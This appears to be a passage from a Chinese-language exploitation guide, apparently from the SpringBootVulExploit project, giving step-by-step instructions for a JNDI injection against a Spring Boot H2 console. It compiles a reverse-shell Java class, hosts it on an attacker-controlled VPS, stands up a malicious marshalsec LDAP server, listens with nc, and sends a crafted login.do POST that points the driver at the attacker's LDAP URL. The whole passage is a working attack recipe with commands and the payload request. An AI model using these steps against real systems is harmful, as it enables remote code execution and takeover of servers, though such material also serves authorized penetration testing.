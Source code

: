 

##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。



##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。



##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```



##### 步骤六：发包触发 JNDI 注入

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

```bash
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```
